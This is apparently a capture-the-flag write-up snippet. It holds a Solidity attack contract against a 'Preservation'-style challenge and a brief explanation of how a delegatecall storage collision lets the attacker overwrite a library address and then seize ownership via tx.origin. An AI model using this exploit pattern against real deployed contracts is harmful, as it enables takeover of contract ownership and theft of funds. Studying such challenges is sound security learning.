 ```javascript
contract PreservationAttack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function attack (address payable addr) public {
        (bool s1, ) = addr.call(abi.encodeWithSignature("setFirstTime(uint256)", uint256(address(this))));
        require(s1, "failed to set attack address.");
        (bool s2, ) = addr.call(abi.encodeWithSignature("setFirstTime(uint256)", uint256(0)));
        require(s2, "failed to modifiy owner.");
    }

    function setTime(uint time) public {
        owner = tx.origin;
    }
 
    fallback() external payable {
    }
}
```

The vulnerability here is the delegatecall in the original contract. We can modify the `timezone1Library` address to point to this contract, so the second time it delegatecalls `setTime`, it will actually change the origin ownership to `tx.origin`.
